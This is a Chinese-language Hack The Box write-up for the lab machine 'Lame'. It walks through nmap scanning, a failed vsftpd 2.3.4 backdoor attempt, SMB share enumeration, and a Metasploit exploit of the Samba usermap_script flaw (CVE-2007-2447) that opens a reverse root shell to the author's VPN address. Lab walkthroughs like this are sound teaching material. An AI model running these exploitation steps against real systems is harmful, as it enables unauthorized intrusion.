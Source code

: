 ```yaml
---
title: HTB靶机Lame Write UP
date: 2025-06-08 16:21:00 +0800
last_modified_at: 2025-06-08 16:21:00 +0800
categories: [HTB]
tags: [HTB]
math: true
mermaid: true
---
```




# Nmap扫描

    ┌──(root?kali)-[/home/kali]
    └─# nmap  -sC -sV 10.10.10.3 -p- --min-rate 4000
    Starting Nmap 7.95 ( https://nmap.org ) at 2025-06-08 03:10 EDT
    Nmap scan report for 10.10.10.3 (10.10.10.3)
    Host is up (0.42s latency).
    Not shown: 65530 filtered tcp ports (no-response)
    PORT     STATE SERVICE     VERSION
    21/tcp   open  ftp         vsftpd 2.3.4
    |_ftp-anon: Anonymous FTP login allowed (FTP code 230)
    | ftp-syst: 
    |   STAT: 
    | FTP server status:
    |      Connected to 10.10.16.9
    |      Logged in as ftp
    |      TYPE: ASCII
    |      No session bandwidth limit
    |      Session timeout in seconds is 300
    |      Control connection is plain text
    |      Data connections will be plain text
    |      vsFTPd 2.3.4 - secure, fast, stable
    |_End of status
    22/tcp   open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
    | ssh-hostkey: 
    |   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
    |_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
    139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
    445/tcp  open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
    3632/tcp open  distccd     distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))
    Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

# There is a famous backdoor in VSFTPd version 2.3.4, and a Metasploit module to exploit it. Does that exploit work here?

## 笑脸漏洞(VSFTPD2.3.4)

**尝试失败**

    msf6 exploit(unix/ftp/vsftpd_234_backdoor) > run
    [*] 10.10.10.3:21 - Banner: 220 (vsFTPd 2.3.4)
    [*] 10.10.10.3:21 - USER: 331 Please specify the password.
    [*] Exploit completed, but no session was created.

## SMB

    ┌──(root㉿kali)-[/home/kali]
    └─# smbmap -H 10.10.10.3
    [*] Detected 1 hosts serving SMB                                                                                                  
    [*] Established 1 SMB connections(s) and 1 authenticated session(s)                                                      
                                                                                                                                
    [+] IP: 10.10.10.3:445	Name: 10.10.10.3          	Status: Authenticated
        Disk                                                  	Permissions	Comment
        ----                                                  	-----------	-------
        print$                                            	NO ACCESS	Printer Drivers
        tmp                                               	READ, WRITE	oh noes!
        opt                                               	NO ACCESS	
        IPC$                                              	NO ACCESS	IPC Service (lame server (Samba 3.0.20-Debian))
        ADMIN$                                            	NO ACCESS	IPC Service (lame server (Samba 3.0.20-Debian))
    [*] Closed 1 connections                                                                                                     
连接上去看看:`smbclient -N //10.10.10.3/tmp`

    smb: \> dir
    .                                   D        0  Sun Jun  8 03:46:24 2025
    ..                                 DR        0  Sat Oct 31 02:33:58 2020
    .ICE-unix                          DH        0  Sat Jun  7 18:46:44 2025
    vmware-root                        DR        0  Sat Jun  7 18:47:55 2025
    5542.jsvc_up                        R        0  Sat Jun  7 18:47:44 2025
    .X11-unix                          DH        0  Sat Jun  7 18:47:10 2025
    .X0-lock                           HR       11  Sat Jun  7 18:47:10 2025
    vgauthsvclog.txt.0                  R     1600  Sat Jun  7 18:46:41 2025

没有可利用文件



## Samba RCE CVE-2007-2447

***searchsploit搜索可利用漏洞***

    ┌──(kali㉿kali)-[~]
    └─$ searchsploit 'samba 3.0.20'
    ----------------------------------------------------------------------------------------------------------------- ---------------------------------
    Exploit Title                                                                                                   |  Path
    ----------------------------------------------------------------------------------------------------------------- ---------------------------------
    Samba 3.0.10 < 3.3.5 - Format String / Security Bypass                                                           | multiple/remote/10095.txt
    Samba 3.0.20 < 3.0.25rc3 - 'Username' map script' Command Execution (Metasploit)                                 | unix/remote/16320.rb
    Samba < 3.0.20 - Remote Heap Overflow                                                                            | linux/remote/7701.txt
    Samba < 3.6.2 (x86) - Denial of Service (PoC)                                                                    | linux_x86/dos/36741.py
    ----------------------------------------------------------------------------------------------------------------- ---------------------------------
    Shellcodes: No Results

发现第二个可以在MSF中利用

    msf6 > search samba 3.0.2

    Matching Modules
    ================

    #   Name                                                   Disclosure Date  Rank       Check  Description
    -   ----                                                   ---------------  ----       -----  -----------
    0   exploit/multi/samba/usermap_script                     2007-05-14       excellent  No     Samba "username map script" Command Execution
    1   exploit/linux/samba/lsa_transnames_heap                2007-05-14       good       Yes    Samba lsa_io_trans_names Heap Overflow
    2     \_ target: Linux vsyscall                            .                .          .      .
    3     \_ target: Linux Heap Brute Force (Debian/Ubuntu)    .                .          .      .
    4     \_ target: Linux Heap Brute Force (Gentoo)           .                .          .      .
    5     \_ target: Linux Heap Brute Force (Mandriva)         .                .          .      .
    6     \_ target: Linux Heap Brute Force (RHEL/CentOS)      .                .          .      .
    7     \_ target: Linux Heap Brute Force (SUSE)             .                .          .      .
    8     \_ target: Linux Heap Brute Force (Slackware)        .                .          .      .
    9     \_ target: Linux Heap Brute Force (OpenWRT MIPS)     .                .          .      .
    10    \_ target: DEBUG                                     .                .          .      .
    11  exploit/solaris/samba/lsa_transnames_heap              2007-05-14       average    No     Samba lsa_io_trans_names Heap Overflow
    12    \_ target: Solaris 8/9/10 x86 Samba 3.0.21-3.0.24    .                .          .      .
    13    \_ target: Solaris 8/9/10 SPARC Samba 3.0.21-3.0.24  .                .          .      .
    14    \_ target: DEBUG                                     .                .          .      .
    
    
    msf6 > use 0

    msf6 exploit(multi/samba/usermap_script) > show options

    Module options (exploit/multi/samba/usermap_script):

    Name     Current Setting  Required  Description
    ----     ---------------  --------  -----------
    CHOST                     no        The local client address
    CPORT                     no        The local client port
    Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
    RHOSTS                    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
    RPORT    139              yes       The target port (TCP)

    msf6 exploit(multi/samba/usermap_script) > set rhosts 10.10.10.3

***注意将本地监听端口该为openvpn的ip***
    
    msf6 exploit(multi/samba/usermap_script) > set lhost 10.10.16.9
    msf6 exploit(multi/samba/usermap_script) > run
    [*] Started reverse TCP handler on 10.10.16.9:4444 
    [*] Command shell session 1 opened (10.10.16.9:4444 -> 10.10.10.3:41153) at 2025-06-08 04:02:47 -0400

    whoami
    root


获取一个新的bash shell:`python -c 'import pty; pty.spawn("/bin/bash")'`

最后分别获取makis和root的home目录下的flag